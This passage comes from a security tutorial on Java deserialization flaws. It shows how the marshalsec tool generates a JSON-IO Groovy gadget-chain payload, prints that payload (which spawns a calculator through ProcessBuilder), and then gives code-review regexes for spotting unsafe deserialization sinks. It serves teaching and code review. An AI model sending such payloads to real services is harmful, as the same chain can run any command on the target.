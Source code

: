 #### Generate payloads dinamically: marshalsec

In [this](https://github.com/no-sec-marko/marshalsec/blob/master/marshalsec.pdf) research, M. Becheler, enumerates various JSON libraries and each method used for RCE exploitation. As part of the research, he provided an interesting tool, to automatically generates payloads for these libraries. For example, considering the vulnerable deserializaer, it is possible to generate the following payload:

```bash
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"

{"@type":"java.util.Arrays$ArrayList","@items":[{"@id":2,"@type":"groovy.util.Expando","expandoProperties":{"@type":"java.util.HashMap","hashCode":{"@type":"org.codehaus.groovy.runtime.MethodClosure","method":"start","delegate":{"@id":1,"@type":"java.lang.ProcessBuilder","command":{"@type":"java.util.ArrayList","@items":["cmd","/c","calc"]},"directory":null,"environment":null,"redirectErrorStream":false,"redirects":null},"owner":{"@ref":1},"thisObject":null,"resolveStrategy":0,"directive":0,"parameterTypes":[],"maximumNumberOfParameters":0,"bcw":null}}},{"@type":"java.util.HashMap","@keys":[{"@ref":2},{"@ref":2}],"@items":[{"@ref":2},{"@ref":2}]}]}
```

If opened with the vulnerable deserializer, a calculator will spawn on the hosting machine.

#### Tips for Source Code reviewers

To find this kind of vulnerability it is usually enough to search the code for common regexes, like: 

* `.*readObject\(.*`
* `java.beans.XMLDecoder`
* `com.thoughtworks.xstream.XStream`
* `.*\.fromXML\(.*\)`
* `com.esotericsoftware.kryo.io.Input`
* `.readClassAndObject\(.*`
* `.readObjectOrNull\(.*`
* `com.caucho.hessian.io`
* `com.caucho.burlap.io.BurlapInput`
* `com.caucho.burlap.io.BurlapOutput`
* `org.codehaus.castor`
* `Unmarshaller`
* `jsonToJava\(.*`
* `JsonObjectsToJava\/.*`
* `JsonReader`
* `ObjectMapper\(`
* `enableDefaultTyping\(\s*\)`
* `@JsonTypeInfo\(`
* `readValue\(.*\,\s*Object\.class`
* `com.alibaba.fastjson.JSON`
* `JSON.parseObject`
* `com.owlike.genson.Genson`
* `useRuntimeType`
* `genson.deserialize`
* `org.red5.io`
* `deserialize\(.*\,\s*Object\.class`
* `\.Yaml`
* `\.load\(.*`
* `\.loadType\(.*\,\s*Object\.class`
* `YamlReader`
* `com.esotericsoftware.yamlbeans`
